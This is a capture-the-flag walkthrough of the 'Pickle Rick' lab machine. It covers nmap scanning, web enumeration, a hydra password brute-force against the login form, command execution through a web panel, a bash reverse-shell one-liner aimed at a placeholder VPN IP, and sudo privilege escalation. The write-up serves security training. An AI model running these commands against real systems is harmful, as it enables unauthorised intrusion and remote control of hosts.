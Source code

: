 # Pickle Rick

IP: 10.10.0.135

### Initial scan

`nmap -sC -sV -oN nmap.txt -vv -p- 10.10.0.135`

`-sC` -> default scripts

`-sV` -> tell us the verisons of running services

`-oN nmap.txt` -> write the ouput into a file called 'nmap.txt'

`-vv` -> set verbosity to level 2

`-p-` -> scan all ports

### Open Ports

80 meaning an http server and 22 which is ssh

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:12:ce:df:f7:9a:2b:9e:97:7d:c1:39:e4:3c:df:48 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4foPbmOjfcIrXu3IJCBFcHjm0rHko8N1WsXQLum5p740xUrBgcL8tfW1HY9hkyuK+jcUX5YLSUVFvNDnMFYwD4trWdieY+XvKFQg+OApJBE3THPkiXhkU8FfiubEsQ8UD7gEEHZsxjKL8PMrsCQIxpY+r7ClLFT3KPry82IaZC4Iecq6SZLXJUCi84ZzMBV0+zrV3QH+5U3ywVmBGu9fJiEbBoHaOm51/vhNx7451U6Socojjr2md3kr1VnPYmHiECg/D7P9NG9p+UD4ZmGdjkPSxYOLVb9qW7VKh/QPro/8TKz3Xgsz2cM0VwOIwKy2LvfbkPvXjW002pPcTLGGp
|   256 1e:83:24:55:dc:41:c3:14:08:0d:f8:2b:ab:40:bf:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFHxx3PVd2BRCPBf2gOQtxGB8qjtct/augcA5gsxgoM9wm+rufC0o5/8TWrcZIwxYOhuVwGzGqhOTDo2Rso3oZk=
|   256 ff:20:ec:03:c6:82:02:7b:1f:5a:cd:fb:65:5c:ee:e7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMVagIW9FgwDEjyxoefbfWBpRdA3e2hkmGs/1PAplz0M
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration

Using my tool webctf, we can see that the page has a username in the comments!

```
webctf http://10.10.0.135/ --comments

=============
COMMENTS
=============

[+] 1 :  

    Note to self, remember username!

    Username: R1ckRul3s

```
We have a username, time to start gobuster!

`gobuster dir -u http://10.10.0.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25`

running gobuster like this didnt get me much, so I ran dirbuster. Looked for extensions `.php .js .txt .py`

#### Dirbuster results

Only the interesting stuff

```
/login.php
/portal.php
/robots.txt
```
`portal.php` redirects to `login.php`.... just like a portal!

We get a login page, so time for some burp.

When sending a login request, the following parameters are sent to the server

`username=R1ckRul3s&password=p1ckl3&sub=Login`

This screams hydra to me.

`hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt http://10.10.0.135 http-post-form/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -V -f -t 15`

Since this wasn't returning anything for quite sometime I looked at robots.txt 
Could this be a password? (Hint: Yes)

## What is the first ingredient Rick needs?

We have entered into `/portal.php` what could we do here? 

The welcome page has a command panel, lets try and use it!

Before that, I quickly checked out the source code, found an interesting comment
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```
This turned out to be a dead end. So i typed `ls` into the command prompt and viola

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
at /Sup3rS3cretPickl3Ingred.txt we have the first ingredient, and there is also a clue.txt!

## Whats the second ingredient Rick needs?

clue: `Look around the file system for the other ingredient.` So let's do that. By trying `cd ..; pwd` I found out that we can move around. Could we maybe get a reverse shell??

`/bin/bash -i >& /dev/tcp/YOUR_THM_VPN_IP/8888 0>&1` and ran `nc -lvnp 8888` in another tab. But no luck.

After playing around a bit, I found `/home/rick/second ingredient` but the `cat` command is disabled! 
What else could we do? Well, how about a python http server. 

`which python3` shows that python3 is installed, so lets try it.


<b>WARNING dont do this! I had to restart my room instance</b>

I tried being creative, wasnt worth it :D Just use the `less` command on the file.

`cd /home/rick; python3 -m http.server --bind 10.10.0.135 8888` the site hangs, so it is running! Visit it on the correct port, and viola again. 

## Whats the final ingredient Rick needs?

Now, how can we escelate to the root user and find our last ingredient?

running `sudo -l` to see what we can do as sudo.... well

```
User www-data may run the following commands on ip-10-10-238-28.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can do anything. So lets try `sudo -la /root/`

Output:

```
.
..
.bashrc
.profile
.ssh
3rd.txt
snap
```
Now just `sudo less` the file, and there we go!
